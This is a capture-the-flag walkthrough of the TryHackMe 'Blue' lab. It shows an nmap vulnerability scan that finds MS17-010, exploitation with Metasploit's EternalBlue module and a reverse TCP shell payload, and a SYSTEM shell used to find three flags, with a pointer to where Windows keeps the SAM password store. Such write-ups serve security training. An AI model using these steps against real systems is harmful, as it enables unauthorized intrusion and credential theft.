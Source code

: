 # Blue - THM

> Klismann Barros | February 27th, 2021

--------------------------------

First, as a way to facilitate everything, I will target the host as a bash variable: 

```bash
blue=10.10.49.103
```

## Nmap Scanning  - TERMINAL OUTPUT

### Command:

```bash
$ nmap -sC -sV -A -script vuln $blue
```     

### OUTPUT:

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-27 16:15 EST
Nmap scan report for 10.10.49.103
Host is up (0.20s latency).
Not shown: 983 closed ports
PORT      STATE    SERVICE            VERSION
135/tcp   open     msrpc              Microsoft Windows RPC
139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
444/tcp   filtered snpp
445/tcp   open     microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
1123/tcp  filtered murray
1163/tcp  filtered sddp
1658/tcp  filtered sixnetudr
2725/tcp  filtered msolap-ptp2
3389/tcp  open     ssl/ms-wbt-server?
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
9485/tcp  filtered unknown
49152/tcp open     msrpc              Microsoft Windows RPC
49153/tcp open     msrpc              Microsoft Windows RPC
49154/tcp open     msrpc              Microsoft Windows RPC
49158/tcp open     msrpc              Microsoft Windows RPC
49160/tcp open     msrpc              Microsoft Windows RPC
54045/tcp filtered unknown
55555/tcp filtered unknown
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 142.66 seconds
```

We can see that it is vulnerable to the MS17-010

><i>For further information about this vulnerability, click on the link: </i>
> <a href="https://www.trendmicro.com/en_us/research/17/f/ms17-010-eternalblue.html" target="_blanK">MS17-010</a>

So, let's exploit it

## Exploitation

```bash
$ msfconsole
```

This is the path for the exploitation code:

```bash
exploit/windows/smb/ms17_010_eternalblue
```

It says that we have to use this payload:

```bash
set payload windows/x64/shell/reverse_tcp
```

Now we have to fill the options that are missing.

And we gained the shell

```shell
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system <-

C:\Windows\system32>
```

Whohoa! We gained the system shell

### Now look after the flags

```shell
C:\Windows\System32>cd ..
cd ..

C:\Windows>cd ..
cd ..

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\

03/17/2019  01:27 PM                24 flag1.txt
07/13/2009  09:20 PM    <DIR>          PerfLogs
04/12/2011  02:28 AM    <DIR>          Program Files
03/17/2019  04:28 PM    <DIR>          Program Files (x86)
12/12/2018  09:13 PM    <DIR>          Users
03/17/2019  04:36 PM    <DIR>          Windows
               1 File(s)             24 bytes
               5 Dir(s)  20,432,228,352 bytes free

C:\>
```

### First flag found!

An important thing to do, is to look were the password is stored on windows, so let's go.

```shell
C:\>cd Windows
cd Windows

C:\Windows>cd system32
cd system32

C:\Windows\System32>cd Config
cd Config

C:\Windows\System32\config>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\Windows\System32\config

02/27/2021  01:43 PM    <DIR>          .
02/27/2021  01:43 PM    <DIR>          ..
12/12/2018  05:00 PM            28,672 BCD-Template
02/27/2021  01:53 PM        18,087,936 COMPONENTS
02/27/2021  02:13 PM           262,144 DEFAULT
03/17/2019  01:32 PM                34 flag2.txt
07/13/2009  08:34 PM    <DIR>          Journal
02/27/2021  02:12 PM    <DIR>          RegBack
02/27/2021  05:14 PM           262,144 SAM
02/27/2021  01:53 PM           262,144 SECURITY
02/27/2021  05:20 PM        40,632,320 SOFTWARE
02/27/2021  05:26 PM        12,582,912 SYSTEM
11/20/2010  08:41 PM    <DIR>          systemprofile
12/12/2018  05:03 PM    <DIR>          TxR
               8 File(s)     72,118,306 bytes
               6 Dir(s)  20,432,224,256 bytes free

C:\Windows\System32\config> 
```

### Normaly, passwords keeps stored at SAM, but we got the second flag.

Now let's go for the last one.

Always look after the users files.

```shell
C:\>cd Users
cd Users

C:\Users>cd Jon
cd Jon

C:\Users\Jon>cd Documents
cd Documents

C:\Users\Jon\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is E611-0B66

 Directory of C:\Users\Jon\Documents

12/12/2018  09:49 PM    <DIR>          .
12/12/2018  09:49 PM    <DIR>          ..
03/17/2019  01:26 PM                37 flag3.txt
               1 File(s)             37 bytes
               2 Dir(s)  20,431,695,872 bytes free

C:\Users\Jon\Documents>
```

### And we got the 3rd and last flag.